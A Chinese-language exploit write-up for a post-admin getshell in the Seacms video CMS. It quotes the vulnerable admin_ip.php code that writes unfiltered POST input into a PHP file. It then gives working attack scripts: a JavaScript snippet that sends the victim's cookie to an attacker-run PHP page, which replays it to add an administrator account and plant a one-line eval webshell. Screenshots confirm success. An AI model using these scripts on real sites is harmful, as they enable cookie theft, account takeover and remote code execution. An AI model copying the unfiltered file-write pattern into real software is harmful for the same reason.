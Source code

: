 ```yaml
---
title: "Seacms getshell"
id: zhfly3112
---
```


# Seacms 后台getshell

## 一、漏洞简介

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

## 二、漏洞影响

## 三、复现过程

后台代码如下

```
<?php

header(‘Content-Type:text/html;charset=utf-8’);

require_once(dirname(**FILE**)."/config.php");

CheckPurview();

if($action==“set”)

{

```
$v= $_POST['v'];

$ip = $_POST['ip'];

$open=fopen("../data/admin/ip.php","w" );

$str='&lt;?php ';

$str.='$v = "';

$str.="$v";

$str.='"; ';

$str.='$ip = "';

$str.="$ip";

$str.='"; ';

$str.=" ?&gt;";

fwrite($open,$str);

fclose($open);

ShowMsg("成功保存设置!","admin_ip.php");

exit; 
```

} `?>` 
```

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

```
# test.js

var img = new Image();

img.src=  “[http://127.0.0.1/test.php?x=](http://127.0.0.1/test.php?x=)” + document.cookie + “&p=” + location.pathname;

# test.php

<?php

```
function Requests($url, $data, $cookie = '', $type = 1){

    $ch = curl_init();

    $params[CURLOPT_URL] = $url;

       $params[CURLOPT_HEADER] = FALSE;

    $params[CURLOPT_SSL_VERIFYPEER] = false;

    $params[CURLOPT_SSL_VERIFYHOST] = false;

    $params[CURLOPT_RETURNTRANSFER] = true;

    if ($type === 1) {

        $params[CURLOPT_POST] = true;

        $params[CURLOPT_POSTFIELDS] = $data;

    }

    $params[CURLOPT_COOKIE] = $cookie;

    curl_setopt_array($ch, $params);

    $output = curl_exec($ch);

    file_put_contents('log.txt', $output, FILE_APPEND);

    curl_close($ch);

}

$C = $_GET['x'];

$P = $_GET['p'];

$P = substr($P, 0, strlen($P)-21);

file_put_contents('c.txt', $C);

file_put_contents('p.txt', $P);

$url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

$url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

$data_1 = 'username=test&amp;pwd=test&amp;pwd2=test&amp;groupid=1';

$data_2 = 'v=0&amp;ip=+";@eval($_POST[qwer]);"';

Requests($url_1, $data_1, $C);

Requests($url_2, $data_2, $C); 
``` 
```

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![image](../img/283faa3b8758a5513226ac6689fe5a5f.png)

代码已经写进了后

![image](../img/2450b548774ab8805b7773eb95543f11.png)

管理员添加成功

![image](../img/0e4c6cce6168c7ec9e8a759319d88fdd.png)

一句话也写进去了